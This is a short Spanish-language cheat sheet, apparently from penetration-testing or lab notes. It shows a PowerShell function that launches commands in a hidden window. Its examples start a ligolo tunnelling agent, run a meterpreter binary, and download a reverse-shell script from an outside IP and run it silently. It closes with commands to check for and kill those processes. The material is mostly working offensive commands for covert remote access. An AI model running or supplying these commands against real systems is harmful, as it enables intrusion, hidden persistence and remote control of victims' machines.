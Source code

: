 #### funcion para ejecutar procesos en background y no bloquear el CLI

```powershell
function bg_exec($cmd) {
    Start-Process -WindowStyle Hidden -FilePath "powershell.exe" -ArgumentList "-nop -w hidden -c $cmd"
}
```

* Ejecucion Ejemplos: 

- ligolo-agent: `bg_exec "C:\Users\eric.wallows\Documents\agent.exe -connect 192.168.45.186:11601 -ignore-cert"`

- meterpreter: ` bg_exec "C:\Users\eric.wallows\Documents\met.exe`

- powershell: `bg_exec "iwr -uri http://192.168.45.186/shell.ps1 -OutFile C:\temp\rev.ps1; powershell -nop -w hidden -c C:\temp\rev.ps1"`


#### Verificacion:

```powershell
Get-Process | ? { $_.Path -like "*ligolo*" }

# o

tasklist | findstr ligolo

```
#### Seleccion y manipulacion de procesos:

```powershell
Get-Process | Where-Object { $_.Name -like "*<process>*" } | Stop-Process -Force

Get-Process | ? { $_.Path -like "*<process>*" }
```
